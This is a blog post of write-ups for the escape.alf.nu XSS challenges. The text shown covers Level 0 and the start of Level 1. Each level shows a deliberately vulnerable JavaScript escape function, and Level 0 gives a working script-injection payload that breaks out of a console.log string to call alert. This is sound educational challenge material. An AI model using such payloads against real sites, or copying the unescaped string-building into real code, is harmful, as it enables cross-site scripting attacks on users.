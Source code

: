 +++
author = "pwntester"
categories = ["XSS", "JavaScript"]
date = 2014-01-06T21:58:00Z
description = ""
draft = false
slug = "escape-alf-nu-xss-challenges-write-ups-part-148"
tags = ["XSS", "JavaScript"]
title = "escape.alf.nu XSS Challenges Write-ups (Part 1)"

+++


These are my solutions to [Erling Ellingsen](https://twitter.com/steike) [escape.alf.nu XSS challenges](http://escape.alf.nu). I found them very interesting and I learnt a lot from them (especially from the last ones to be published in Part 2). Im publishing my results since the game has been online for a long time now and there are already some sites with partial results.

My suggestion, if you havent done it so far, is to go and try to solve them by yourselves.... so come on, dont be lazy, stop reading here and give them a try ...

...

...

...

...

Ok so if you have already solve them or need some hits, here are my solutions

# Level 0:
```lang-javascript line-numbers 
function escape(s) {
  // Warmup.

  return '<script>console.log("'+s+'");</script>';
}
```

There is no encoding so the easiest solution is to close "log" call and inject our "alert"

Solution:
```lang-javascript line-numbers 
");alert(1,"
```

# Level 1:
```lang-javascript line-numbers 
function escape(s) {
  // Escaping scheme courtesy of Adobe Systems, Inc.
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

